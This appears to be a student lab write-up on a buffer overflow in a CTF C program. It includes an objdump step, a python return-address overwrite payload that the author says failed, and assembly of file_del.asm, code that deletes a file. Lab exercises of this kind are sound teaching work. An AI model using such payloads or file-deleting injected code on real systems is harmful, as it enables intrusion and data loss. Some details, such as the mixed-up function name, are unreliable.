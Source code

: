 # 2.1 Conduct attack on  CTF.c 

![image](https://github.com/user-attachments/assets/870fbe06-03b0-4bdf-bf77-cc86cd3051d6)

> There is a buffer overflow vulnerability in the vuln function:
> strcpy(buf, s) can copy more than 100 characters into the buf array, causing memory overflow and overwriting the next memory regions on the stack (including the return address of the function).
>  If I inputs a long enough string and knows `the address of the myfunc function`, I can overwrite the return address on the stack, forcing the program to jump to the `myfunc function` after the `vuln function` finishes.


First of all run :
```bash
objdump -d ctf.out | grep myfunc
```


![image](https://github.com/user-attachments/assets/13b9d00b-60f6-4c91-8587-03319bc9bfa1)


You will know the address of function vuln() is `0804851b`


![image](https://github.com/user-attachments/assets/3fa4af65-8aa4-4475-82fd-8af37de72d4d)

```bash
./ctf.out $(python -c "print('a'*104 + '\x1b\x85\x04\x08' + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")
```

> Sorry i don't why my cmd return a wrong answer :(
 


# 2.2 Inject code to delete file: file_del.asm is given on github

run `file_del.asm` with nasm
```bash
nasm -f elf32 file_del.asm -o file_del.o
```

```bash
ld -m elf_i386 file_del.o file_del
```

create a new file named `dummyfile` use `nano`

```bash
nano dummyfile 
```


![image](https://github.com/user-attachments/assets/6c7bafc2-631e-4d57-8dd9-00d27c57d74c)


and after that 

```bash
./file_del
```

and file named  `dummyfile` will be deleted

![image](https://github.com/user-attachments/assets/edfb7ba3-df75-4c8d-84fd-2125f357f8d0)



